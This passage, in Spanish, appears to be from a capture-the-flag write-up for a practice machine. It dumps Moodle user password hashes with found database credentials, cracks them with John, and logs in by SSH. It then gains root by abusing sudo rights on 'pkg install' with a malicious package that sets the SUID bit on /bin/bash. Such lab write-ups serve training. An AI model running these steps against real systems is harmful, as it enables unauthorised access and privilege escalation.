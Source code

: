 ```bash
export PATH=/root/.local/bin:/home/s4vitar/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/go/bin/:/home/s4vitar/go-workspace/bin:/home/s4vitar/.fzf/bin
export $PATH
which mysqlshow
```

Ahora que tenemos acceso a la utilidad mysqlshow. Nos conectamos con las credenciales.

```bash
mysqlshow -umoodle -pPlaybookMaster2020
mysqlshow -umoodle -pPlaybookMaster2020 moodle
```

Vemos una table **mdl_user**, miramos su contenido con mysql

```bash
mysql -umoodle -pPlaybookMaster2020 -e "select * from mdl_user" moodle
mysql -umoodle -pPlaybookMaster2020 -e "select username,password,email from mdl_user" moodle
```

Copiamos el resultado en un fichero hashes y tratamos el fichero para poder crackearlo con John

#### Crackeando contraseñas con John {-}

```bash
cat hashes | awk '{print $1 ":" $2}'
cat hashes | awk '{print $1 ":" $2}' | sponge hashes
john --wordlist=/usr/share/wordlists/rockyout.txt hashes
```

Encontramos el hash del usuario admin. Pero este usuario no existe en el systema. Mirando el email vemos que el usuario es **jamie**

```bash
ssh jamie@10.10.10.234
```

Ya somos jamie y poder leer el user.txt## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
uname -a
cat /etc/os-release
sudo -l
```

Aqui vemos que podemos lanzar el binario `/usr/sbin/pkg install *` como cualquier usuario sin proporcionar contraseña.
Buscando por [gtfobins](https://gtfobins.github.io/gtfobins/pkg/#sudo) vemos que podemos convertirnos en root con el comando

```bash
TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF

sudo pkg install -y --no-repo-update ./x-1.0.txz
```
